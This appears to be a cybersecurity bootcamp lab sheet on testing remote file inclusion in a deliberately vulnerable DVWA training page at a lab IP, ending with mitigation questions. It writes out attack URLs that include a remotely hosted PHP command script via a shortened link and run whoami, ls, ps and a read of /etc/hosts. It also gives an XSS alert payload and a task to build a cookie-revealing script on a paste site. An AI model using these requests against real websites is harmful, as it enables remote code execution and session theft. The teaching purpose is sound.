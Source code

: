 ## Activity File: Remote File Inclusion 

- In this activity, you will continue your role as an application security engineer with Replicants.

- You've just tested the company's main production website and confirmed there is another back-end component vulnerability, **local file inclusion**.

- Your manager is now concerned that the website is also vulnerable to **remote file inclusion** and would like you to now test for this vulnerability.

- Your manager has asked you to propose a mitigation strategy based on your findings.

## Setup 

- Access Vagrant and open a browser.

- Return to the same webpage from the previous activity: <http://192.168.13.25>.

  - Select the **File Inclusion** option from the menu on the left side of the page.

    - Note that this is the same page where the directory traversal activity was done.

  - Alternatively, you can access the webpage directly by using this link: <http://192.168.13.25/vulnerabilities/fi/>.
  
-  The page should look like the following image:

    ![On DVWA, a red arrow points to File Inclusion on the left-side menu.](directory_traversal.png)

- **Note**: If you have any issues accessing this webpage, you might need to repeat the activity setup steps from the SQL Injection Activity in 15.1.


## Instructions

The webpage you have revisited represents a page within Replicants website designed to display files within Replicants webserver. You previously determined this page has a directory traversal vulnerability. Complete the steps below to determine if this same webpage is also vulnerable to a **Remote File Inclusion** Vulnerability

1. Test the intended use of the web application.

    - Select `File1.php`, and note the following:

      - The URL changes to the following: <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.

      - The content on the webpage is displayed as follows:
      
              Hello admin
              Your IP address is: 192.168.13.1
          
    - Select the other links (`File2.php` and `File3.php`) and note their URL and webpage changes.

2. Test an unintended function of the application by referencing a remote webpage.

    - Note that you just tested how the application is designed to access a file on the Replicants web server.

    - Let's test what will happen if the URL is modified to reference an external or remote webpage.
    
    - Change the parameter of the URL to reference an external URL (<http://www.example.com>) instead of one of the files (`File1.php`). For example:
    
      - <http://192.168.13.25/vulnerabilities/fi/?page=http://www.example.com>
      
    - Note how the example.com webpage has been added to the top of the Replicants website.

      - Test other webpages by replacing example.com with other URLs.
        
    - Note that this illustrates that the webpage is designed to allow external references.

    - Let's try something a little more malicious by referencing a remote script instead of a webpage!
    
3. Test remote file inclusion.

    - We just saw how this webpage allows refrencing external sources such as webpages. 

      - Let's see what will happen if we reference a malicious external script instead of a webpage.
      
    - Using your browser in Vagrant, view the following webpage:

      - <https://tinyurl.com/y498epmz>
      
    - Note how this looks exactly like the script that was used in the local file inclusion activity.

      - But this script is hosted remotely!
      
    - Change the URL to reference this webpage, instead of example.com: <http://192.168.13.25/vulnerabilities/fi/?page=https://tinyurl.com/y498epmz>.

    - Note that this will not do anything; similar to the remote inclusion activity, we have to provide the script with a command-line command!

    - Let's start with the `whoami` command.

      - To add this command into the URL, add `cmd=whoami&` between `?` and `page`, as follows:
      
        - `http://192.168.13.25/vulnerabilities/fi/?cmd=whoami&page=https://tinyurl.com/y498epmz`
      
    - Run the command and note the results on the top left of the page.

    - Now see if you can modify the command to run the following:

      - `ls`
    
      - `ps`
    
      - cat the `/etc/hosts` file
    
4. **Bonus**: Combine remote file inclusion and cross-site scripting.

    - So far you have been able to run **remote file inclusion** by running remote scripts against a vulnerable web server.

    - These scripts have referenced an external webpage that contained a malicious script.

    - Let's see what would happen if you referenced a script that contained a **cross-site scripting** payload.

    - Using your browser again, look at the following webpage: 

      - <https://tinyurl.com/yxk853vy>

      - Note how this page contains a script that contains XSS payloads we developed previously.

        - `<script>alert("Hey you have been hacked")</script>`

    - Note that the exception is that the XSS payload is embedded within a PHP script.

    - Change the URL to reference this webpage, to see if you can get the XSS payload to execute the popup!

5. **Super Bonus**: Develop your own malicious script to capture cookies with a remote file inclusion exploit.

    - So far you have referenced pre-built webpages that contained malicious PHP script.

    - Let's see if you can write your own malicious PHP script webpage.

      - When your webpage is referenced, a script should run and pop up with the user's session cookies.

    - **Hint**: Look at the format of the script from Step 4, and modify this script to pop up with the session cookies: 

        `<script>alert("Hey you have been hacked")</script>`

    - **Hint**: To build a webpage with the script, do the following:

        - Add your script on the following webpage: <http://pastie.org/>.
      
        - Select Save Paste and then Raw on the top right to display the raw code.
      
        - This will create a unique URL with your code.
          
   - Reference the URL of this raw code from the same vulnerable webpage.

      - Run your URL and see if you can successfully get the session cookies to appear on a pop-up!

6. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user might take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

    - Describe in plain language to your manager how you can mitigate the vulnerabilities you just exploited.

---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
